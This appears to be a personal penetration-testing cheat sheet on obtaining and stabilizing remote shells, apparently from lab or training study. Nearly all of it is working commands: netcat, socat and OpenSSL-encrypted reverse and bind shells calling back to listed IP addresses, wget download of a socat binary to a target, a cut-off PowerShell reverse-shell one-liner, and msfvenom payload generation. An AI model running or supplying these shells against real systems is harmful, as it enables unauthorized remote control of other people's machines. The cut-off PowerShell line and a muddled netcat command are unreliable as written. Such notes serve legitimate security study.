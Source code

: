 Netcat

Socat

MSF auxiliary/multi/handler

MSF venom

[Payload of all things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[Pentest Monkey](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

/usr/share/webshells

2 types of shells
- Reverse
- Bind 





# Shell Stabilization


```
python -c 'import pty;pty.spawn("/bin/bash")'
python2 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm 

control Z then, 

stty raw -echo; fg
```





Py
    The first thing to do is use 

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace python with python2 or python3 as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
    Step two is: 
```export TERM=xterm``` 
-- this will give us access to term commands such as clear.
    
Finally (and most importantly) we will background the shell using 

Ctrl + Z. 

Back in our own terminal we use 

```stty raw -echo; fg```

This does two things: 

	first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). 
	It then foregrounds the shell, thus completing the process. 

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

```
stty -a 	(new terminal  // size you want)  then set:
stty rows <number>
stty cols <number>
```



# rlwrap (good for windows)

```
sudo apt install rlwrap

rlwrap nc -lvnp <port>
```
linux use Ctrl + Z then stty raw -echo; fg

stty -a 	(new terminal  // size you want)  then set:
stty rows <number>
stty cols <number>






# Socat 

serve this [file](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) on py server:

`sudo python3 -m http.server 80`




upload from host:

**linux**:

`wget 10.6.65.43/socat -O /tmp/socat`

**windows**:

`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`

stty -a 	(new terminal  // size you want)  then set:
stty rows <number>
stty cols <number>










## Socat 101


Reverse Shell

**listen**:
socat TCP-L:443 -

**connect**:
windows:
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

linux:
socat TCP:10.6.65.43:443 EXEC:"bash -li"




Bind Shell

listen:
socat TCP-LISTENER:443 EXEC:"bash -li"

socat TCP-L:<PORT> EXEC:powershell.exe,pipes


We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

connect:
socat TCP:10.10.221.44:443



target linux only:

any payload:
socat TCP-L:<port> FILE:`tty`,raw,echo=0

if socat installed:
socat TCP:10.6.65.43:443 EXEC:"bash -li",pty,stderr,sigint,setsid,sane


If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding -d -d into the command



Socat Encrypted Shells


TCP becomes OPENSSL

1- generate certificate
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
leave blank 


2- merge file

```cat shell.key shell.crt > shell.pem```


3- set up listner

```socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -```

connect:

```socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash```

bind shell:

target-
```socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes```

attacker:

```socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -```


EXAMPLE
```
socat OPENSSL-LISTEN:53,cert=encrypt.pen,verify=0 FILE:`tty`,raw,echo=0 


socat OPENSSL:10.10.10.5:53 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```









PAYLOADS


netcat -e option let you execute a process on connection.


bind shell
```nc -lvnp <PORT> -e /bin/bash```

reverse shell
```nc <LOCAL-IP> <PORT> -e /bin/bash```


linux
```mkfifo /tmp/f; nc -lvnp 10.6.65.43 1234 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f```


windows
needs to be one line:
```powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length```




### msfvenom

```msfvenom -p <PAYLOAD> <OPTIONS>```


```msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>```


**staged**- good for ids detection, first stage just connects, second stage downloads code


**stageless** - most common, all in one, 

meterpreter shell  -  must be used in msf, banned from certain certifications



```<OS>/<arch>/<payload>```

linux/x86/shell_reverse_tcp


camel case = **stageless**

backslash = **staged**



```msfvenom --list payloads | grep "<OS>/<arch>/<payload>"```


